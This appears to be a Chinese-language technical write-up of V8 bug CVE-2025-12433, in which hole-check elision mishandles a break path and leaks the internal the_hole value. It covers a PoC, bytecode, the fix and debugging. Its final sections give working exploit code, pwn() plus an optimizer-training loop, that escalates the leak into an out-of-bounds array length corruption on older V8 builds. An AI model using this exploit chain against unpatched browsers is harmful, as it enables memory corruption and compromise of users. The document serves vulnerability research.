CVE-2025-12433 分析¶
基本信息¶
- 漏洞编号：CVE-2025-12433
- 官方描述：V8 中的 inappropriate implementation
- 漏洞类型：hole-check elision merge 处理错误
- 官方修复提交：
b371b4f8ba073fb5c054273e8909bee5de574b35 - 复现命令：
./out/x64.release_with_symbol/d8 --allow-natives-syntax poc.js
漏洞概览¶
PoC 运行后，按正常语义本来应该抛出 ReferenceError 的 print(x)，最终却拿到了内部的 the_hole_value。这说明一个原本只应该停留在引擎内部、用于表示 TDZ 状态的哨兵值，被直接带到了后续 use 点。
问题的关键也不是“某个 use 点单独漏了一次检查”，而是 hole-check elision 在 merge 时把变量状态判断得过于乐观了。某条路径上建立的“这个变量已经安全”的结论，被错误带到了 merge 之后，最终把本应保留的 hole/TDZ 检查消掉了。后面的 PoC、bytecode、patch 和断点分析，都是围绕这个点展开的。
背景¶
TDZ
暂时性死区（Temporal Dead Zone, TDZ）指的是：在代码块中，用 let 或 const 声明的变量，在真正执行到声明语句之前，虽然 binding 已经存在，但还没有被初始化；此时如果访问它，会抛出 ReferenceError，而不是返回 undefined。
function test() {
console.log(a); // ReferenceError: Cannot access 'a' before initialization
let a = 10;
}
test();
执行逻辑可以概括为：
- 编译阶段发现
let a - 为
a建立 lexical binding - 进入作用域后，
a已存在但未初始化 - 在执行到
let a = 10之前访问a，就会命中 TDZ 并抛错
与之相对，var 不会有 TDZ：
原因是：
var会变量提升- 进入作用域时自动初始化为
undefined - 因此不会出现“已存在但未初始化”的状态
the_hole
在 V8 处理未初始化 lexical binding 时，TDZ 通常不是用 undefined 表示，而是用一个内部哨兵值：the_hole。可以把它理解成一种“槽位已经存在，但当前还不能按正常 JavaScript 值来使用”的特殊标记。对于 let 变量来说，在真正执行到初始化语句之前，槽位里放的并不是普通 JavaScript 值，而更接近于：
这个槽位当前保存的是
the_hole，后续如果读到它，就应该先做 hole/TDZ 检查，并抛出ReferenceError。
这一点可以从一个更容易观察的例子看出来。下面这个数组字面量最开始只有一个元素，但当直接写入 arr[2] 以后，中间空出来的位置不会被填成 undefined，而是会保留为 hole：
对应的 DebugPrint 输出里，可以看到 elements backing store 中的空洞位置显示为 <the_hole>：

图：数组空洞在 DebugPrint 里会显示为 <the_hole>。这里用它只是说明 V8 内部确实存在统一的 hole 哨兵概念。
这里要注意，数组元素里的 hole 和 TDZ 变量虽然语义层面不是一回事，但它们都体现了同一个事实：某个位置“看起来有槽位”，但当前并没有一个可直接参与正常 JavaScript 语义的值。
本漏洞最关键的现象，就是这个本不该暴露给 JavaScript 正常执行路径的 the_hole，最终被直接传给了 print。
PoC¶
function trigger(cond) {
{
target: switch(1) {
case 1:
do {
if (cond) break target;
} while((x=1) && false);
break;
default:
x=1;
}
print(x); // 按语义应抛 ReferenceError，但漏洞版本会把 hole 直接传下去
let x;
}
}
trigger(true);
当 trigger(true) 执行时，流程会在 case 1 内部命中：
于是控制流直接跳出整个带标签的 switch。这意味着：
while ((x = 1) && false)这条路径不会真正完成初始化default: x = 1也不会执行- 到
print(x)时，x按语义仍应处于 TDZ 对应的 hole 状态
运行结果
这说明传给 print 的参数不是正常 JavaScript 值，而是内部哨兵值 the_hole。如果 print(x) 前还保留着正常的 hole/TDZ 检查，那么读取 x 时应该先发现它仍然是 hole，并直接抛出 ReferenceError，而不是继续执行到 print(the_hole)。
Bytecode 分析¶
下面这段是 trigger 函数的核心 bytecode，只保留了和分析直接相关的部分，并补上了位置注释：
# a0: cond
# r0: x 对应的 lexical 槽位
# r1: 临时寄存器 / switch 比较值 / print 函数对象
0 : LdaTheHole
1 : Star0
# x 初始为 the_hole，对应 let x 在初始化前的 TDZ 状态
2 : LdaSmi [1]
4 : Star1
5 : LdaSmi [1]
7 : TestEqualStrict r1, [0]
10 : JumpIfTrue [4] -> 14
12 : Jump [31] -> 43
# @14: case 1
14 : Ldar a0
16 : JumpIfToBooleanFalse [4] -> 20
18 : Jump [37] -> 55
# @18: if (cond) break target;
# 如果 cond 为真，直接跳到 @55，也就是 merge 后的 print(x) use 点
# @20: cond == false 时，继续走 while ((x = 1) && false)
20 : LdaSmi [1]
22 : Star1
23 : Ldar r0
25 : ThrowReferenceErrorIfHole [0]
27 : Mov r1, r0
30 : Ldar r1
32 : JumpIfToBooleanFalse [9] -> 41
34 : LdaFalse
35 : JumpIfFalse [6] -> 41
37 : JumpLoop [23], [0], [1] -> 14
41 : Jump [14] -> 55
# @23 / @25: 在 (x = 1) 这条路径内部，仍然会对 x 做 ThrowReferenceErrorIfHole
# 说明路径内部访问并没有丢失 TDZ / hole 检查
# @43: default
43 : LdaSmi [1]
45 : Star1
46 : Ldar r0
48 : ThrowReferenceErrorIfHole [0]
50 : Mov r1, r0
53 : Ldar r1
# @46 / @48: default: x = 1 这条路径里同样保留了 ThrowReferenceErrorIfHole
# @55: merge 后的 use 点，对应 print(x)
55 : LdaGlobal [1], [2]
58 : Star1
59 : CallUndefinedReceiver1 r1, r0, [4]
# @55: 取出全局 print
# @59: 直接把 r0 作为参数传给 print
# 这里没有再次出现 ThrowReferenceErrorIfHole
# 也就是说，merge 后的 print(x) use 点把仍可能为 hole 的 r0 直接传了下去
63 : LdaUndefined
64 : Star0
65 : LdaUndefined
66 : Return
从这段 bytecode 可以直接看出，x 在函数入口处就被初始化成了 the_hole，说明 V8 在字节码层确实用 hole 来表示 let x 声明前的 TDZ 状态。与此同时，(x = 1) 和 default: x = 1 这两条路径内部都还保留着 ThrowReferenceErrorIfHole，说明路径内部的检查并没有丢。真正出问题的是 merge 之后的 print(x) use 点：当 cond == true 时，控制流会从 offset 18 直接跳到 offset 55，绕过中间所有路径，而 offset 55 到 59 之间只剩下取出全局 print 并直接调用 CallUndefinedReceiver1 r1, r0, [4]，中间没有再对 r0 做 ThrowReferenceErrorIfHole。
根因分析¶
正常语义
let x; 声明之前，x 处于 TDZ。V8 内部会用 the_hole 来表示这一状态。按照正常语义，访问 x，或者将 x 用作某个表达式、某次调用的参数，都应该先经过 hole/TDZ 检查；如果 x 仍为 hole，就应当抛出 ReferenceError。
真实执行路径
在 trigger(true) 时，执行流会进入 case 1，读取 cond，随后命中 if (cond) break target; 并直接跳出整个带标签的 switch。因此，while ((x = 1) && false) 不会真正完成初始化路径，default: x = 1 也不会执行。换句话说，走到 print(x) 时，x 实际仍然是 hole。
为什么问题不在路径内部
从 bytecode 可以看到，无论是 (x = 1) 路径还是 default 路径，访问 x 时都还带着：
这说明漏洞不是“所有对 x 的访问都丢失了检查”，而是更细粒度地表现为：路径内部的访问点仍有检查，但 merge 之后的 use 点没有检查。
patch 的修复位置
结合官方修复提交 b371b4f8ba073fb5c054273e8909bee5de574b35，diff 可以分成两层来看。
第一层是状态合并机制本身。patch 给 HoleCheckElisionMergeScope 增加了 MergeBranch()：

图：MergeBranch() 会把当前分支的 hole_check_bitmap_ 并入 merge 结果，核心语义是“只保留所有分支都确认安全的变量”。
这一层最关键的是：
这里的意思不是“某一条分支安全就够了”，而是把当前分支的 hole_check_bitmap_ 按位与进 merge_value_，也就是只保留所有分支都认可安全的变量。换句话说，merge 后还能继续省掉 hole check 的变量，必须是各条路径取交集之后剩下的那一批。
第二层是 12433 的具体修复落点。patch 把 break 路径显式接入到了这套 merge 机制里：

图：CMD_BREAK 分支在跳出前先执行 merge_elider_.MergeBranch(generator())，避免 break 路径被漏算。
这里最关键的一行是：
它出现在 CMD_BREAK 分支里，说明修复的关键不是“在读取点补一个检查”，而是：
在
break提前跳离当前结构之前，先把当前 break 路径上的 hole-check 状态并入 merge 结果。
调试验证
为了确认 break 确实走到了 patch 涉及的路径，我在漏洞版本的 BytecodeGenerator::ControlScopeForBreakable::Execute 上下了断点。PoC 运行后可以直接命中：

图：漏洞版本里 Execute() 命中了 CMD_BREAK 分支，但此时还没有把当前路径上的 hole-check 状态并入 merge。
从这张图可以直接看到：
- 当前命中的函数是
BytecodeGenerator::ControlScopeForBreakable::Execute command的值就是CMD_BREAK- 当前源码位置已经进入了
switch (command)的case CMD_BREAK:分支
也就是说，漏洞版本在处理 break 时，直接跳离当前结构，并没有额外把当前 break 路径上的 hole-check 状态做 merge；修复版本则在跳走前先执行 merge_elider_.MergeBranch(generator())。
复现版本选择与 Hole 结构变化¶
如果后面还想继续往利用走，实验版本就不能只看 12433 这个 patch 本身，还得同时看 Hole 内部表示在版本演进里的变化。后续这一节默认讨论的是 24ab048 之前的旧版 Hole 布局。
这一点可以直接从 src/objects/hole.h 的结构变化看出来。旧版本里的 Hole 仍然是一个带对象语义的 HeapObject，并且保留了和 raw numeric value 相关的字段与布局：

图：旧版 Hole 的示意布局。这里最值得注意的是 +0x8 处仍然存在可被后续当作 length 读取的字段。
对应的运行时 DebugPrint 结果里，也能看到当时的 HOLE_TYPE 实例大小仍然是 12 bytes：

图：旧版 HOLE_TYPE 的 instance size 仍然是 12 bytes，对应上面的旧布局。
而在 24ab048 这个提交中，V8 对 Hole 做了一轮比较明显的重构，提交说明里已经直接写明：[hole] Add strict hole subtypes，并且 make Hole a trivial HeapObjectLayout type：

图：24ab048 的提交说明直接点出了两件事：引入 strict hole subtype，并把 Hole 改成 trivial HeapObjectLayout。
从这次 diff 可以直接看到，Hole 的基类从旧版的 HeapObject 变成了 HeapObjectLayout，旧版里与 HeapNumber 兼容相关的结构和字段被移除，同时引入了 strict hole subtype 机制：

图：hole.h 的关键 diff。旧版 Hole 结构被收紧后，后面那种沿 length 偏移继续放大的方法就不能直接照搬了。
在这次改动之后，运行时 DebugPrint 里对应的 HOLE_TYPE 实例大小也变成了 4 bytes：

图：新版 HOLE_TYPE 的 instance size 已经变成 4 bytes，说明对象布局和旧版不在同一个前提上了。
这里要强调的是，问题不在于 12433 本身把 Hole 结构改掉了，而在于从 24ab048 开始，Hole 的内部表示已经变了。旧版本里围绕 hole 布局建立的利用思路，到这个版本之后就不能直接沿用。所以如果后面还要继续往下做，默认前提就是：实验版本最好位于 24ab048 之前。
从 Hole 泄漏到 OOB 的放大思路¶
利用思路是：把 hole 塞进一个看起来应该是正常字符串的地方，然后借 .length、Math.sign 和几步很短的算术，把“编译器以为的范围”和“真实执行时的范围”一点点拉开，最后把这个分歧传到数组索引和 length 更新上。
这一段不是直接拿 the_hole 当最终利用结果，而是把它当成一个脏输入源。只要这个脏输入能混进 TurboFan 原本按“正常对象语义”建模的路径里，后面就有机会把它放大成数组状态不一致，并在公开旧版链路里进一步落到 OOB。
利用流程图：

图：放大链可以先粗看成 5 步：hole 泄漏，伪装成字符串长度读取，制造 range mismatch，带偏 length 更新，最后落到 OOB。
具体到这里，o.s 会被优化器当成字符串看待，所以 o.s.length 对应的节点会沿着“字符串长度非负”这个前提去建类型和范围信息；但如果 trigger 为真，实际流进去的却是前面拿到的 hole。这样后面的 len -> sign -> i -> idx 就自然分成了两套值域：
- 一套是优化器根据“正常字符串长度”推出来的范围。
- 一套是
hole实际参与运算之后的真实范围。
只要最后把这两套范围的分歧传到元素写入位置，编译器就有可能按错误的索引信息去更新数组 length，从而把一个原本很小的数组推进到不一致状态。这里的重点是“存在可被继续放大的状态分歧”，而不是声称 12433 在所有版本上都会自动落到同一条 OOB 路径。
下面这段代码做的就是这件事。前半段还是 12433 自己的 hole 泄漏，后半段则是借这种放大思路，把 hole 喂给 .length 然后逐步放大。

图：这条思路依赖旧版布局里 String 和 Hole 在 +0x8 偏移上都能被当作 length 读取；24ab048 之后这个前提就不成立了。
function pwn(trigger,cond) {
var hole;
{
target: switch (1) {
case 1:
do {
if (cond) break target;
} while ((x = 1) && false);
break;
default:
x = 1;
}
//% DebugPrint(x);
hole = x;
let x;
}
let o = {};
// both: (Hole | HeapConstant)
// let len = o.s.length; infer: (0, 535870888), actual: (-524289, 535870888)
// let sign = Math.sign(len); infer: (0, 1), actual: (-1, 1)
// let i1 = 2 - (sign + 1); infer: (0, 1), actual: (0, 2)
// let i2 = 5 - (i1 + 4) >> 1; infer: (0, 0), actual: (-1, 0)
// let i3 = 1 * i2 + 1; infer: (1, 1), actual: (0, 1)
// let i4 = i3 * 200; infer: (200, 200), actual: (0, 200)
o.s = trigger ? hole : "not the hole";
var s = 2 - (Math.sign(o.s.length) + 1);
var i = 2 * ((5 - (s + 4)) >> 1) + 2;
let idx = i * 200;
/*
inferred:
--------------------------------------
let sign = 1; // 1 = 1
let i1 = 2 - (sign + 1); // 2 - (1+1) = 0
let i2 = 5 - (i1 + 4) >> 1; // 5 - (0 + 4) >> 1 = 0
let i3 = 1 * i2 + 1; // 1 * 0 + 1 = 1
let i4 = i3 * 200; // 1 * 200 = 200
actual:
--------------------------------------
let sign = -1; // -1 = -1
let i1 = 2 - (sign + 1); // 2 - (-1 + 1) = 2
let i2 = 5 - (i1 + 4) >> 1; // 5 - (2 + 4) >> 1 = -1
let i3 = 1 * i2 + 1; // 1 * -1 + 1 = 0
let i4 = i3 * 200; // 0 * 200 = 0
*/
let arr = new Array(8);
let victim_arr = [{}];
arr[0] = 13.37;
arr[idx] = 13.37;
return [arr, victim_arr];
}
for (var i = 0; i < 0x100000; i++) {
pwn(false,true);
pwn(false,true);
pwn(false,true);
pwn(false,true);
}

图：控制流上最重要的一点只有一个: break target 让 x 保持为 hole，并把这个状态带到后面的 use 点。

图：数据流上则是把 hole 一路送进 .length -> Math.sign -> idx 这条计算链。
范围不一致的传播¶
这段代码关键不在于“把 hole 塞进对象属性”本身，而在于要让它以一种看起来很正常的方式继续流下去。对优化器来说，o.s.length 像是一次普通的字符串长度读取；但在 trigger == true 这条路径里，o.s 实际上是前面泄漏出来的 hole。于是从 length 开始，推断值域和真实值域就分叉了。
在正常字符串路径上，.length 不可能为负数，所以优化器会把它压到非负区间；但在 hole 路径上，读出来的值却可能落到包含负数的范围里。Math.sign 和后面的几步短算术，做的都是同一件事：把这个差异一步步放大，直到优化器把 idx 看成固定的大索引，而真实执行时它又仍然可能掉回 0。
